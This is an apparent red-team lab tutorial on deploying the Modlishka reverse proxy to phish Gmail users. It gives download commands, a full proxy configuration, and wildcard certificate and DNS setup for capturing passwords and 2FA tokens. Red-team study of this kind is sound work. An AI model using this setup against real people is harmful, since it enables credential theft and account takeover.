








# Phishing with Modlishka Reverse HTTP Proxy

This lab shows how to setup a reverse HTTP proxy `Modlishka` that can be used in phishing campaigns to steal user passwords and 2FA tokens. Modlishka makes this possible, because it sits in the middle between the website you as an attacker are impersonating and the victim \(MITM\) while recording all the traffic/tokens/passwords that traverse it.

## Setup

Let's start off by building a new DigitalOcean droplet, the smallest is more than enough:



Once logged on, install certbot and download modlishka binary itself:

```bash
apt install certbot
wget https://github.com/drk1wi/Modlishka/releases/download/v.1.1.0/Modlishka-linux-amd64
chmod +x Modlishka-linux-amd64 ; ls -lah
```



## Modlishka Configuration

Let's create a configuration file for modlishka:




```javascript
{
  //domain that you will be tricking your victim of visiting
  "proxyDomain": "redteam.me",
  "listeningAddress": "0.0.0.0",

  //domain that you want your victim to think they are visiting
  "target": "gmail.com",
  "targetResources": "",
  "targetRules":         "PC9oZWFkPg==:",
  "terminateTriggers": "",
  "terminateRedirectUrl": "",
  "trackingCookie": "id",
  "trackingParam": "id",
  "jsRules":"",
  "forceHTTPS": false,
  "forceHTTP": false,
  "dynamicMode": false,
  "debug": true,
  "logPostOnly": false,
  "disableSecurity": false,
  "log": "requests.log",
  "plugins": "all",
  "cert": "",
  "certKey": "",
  "certPool": ""
}
```


## Wildcard Certificates

Important - let's generate a wildcard certificate for my domain I want my phishing victims to land on `*.redteam.me`:

```csharp
certbot certonly --manual --preferred-challenges=dns --server https://acme-v02.api.letsencrypt.org/directory --agree-tos -d *.redteam.me --email noreply@live.com
```

This will generate a challenge code as shown below:



We need to create a DNS TXT record in the DNS management console for redteam.me, which in my case is in Digital Ocean:



Once the DNS TXT record is created, continue with the certificate generation:



Once certificates are generated, we need to convert them to a format suitable to be embedded into JSON objects:

```bash
awk '{printf "%s\\n", $0}' /etc/letsencrypt/live/redteam.me/fullchain.pem
awk '{printf "%s\\n", $0}' /etc/letsencrypt/live/redteam.me/privkey.pem
```


Once that is done, copy over the contents of the certs into the config - `fullchain.pem` into the `cert` and `privkey.pem` into the `certKey`:


## More DNS Records

Let's create an A record for the root host `@` that simply points to the droplet's IP:


This is very important - we need a `CNAME` record for any host/subdomain `*` pointing to `@`



## Launching Modlishka

We are now ready to start the test by launching modlishka and giving it the modlishka.json config file:

```csharp
./Modlishka-linux-amd64 -config modlishka.json
```

Below shows how by visiting a redteam.me, I get presented with contents of gmail.com - indicating that Modlishka and the MITM works. Again, it is important to call it out - we did not create any copies or templates of the targeted website - the victim is actually browsing gmail, it's just that it is being served through Modlishka where the traffic is inspected and passwords are captured:



## References



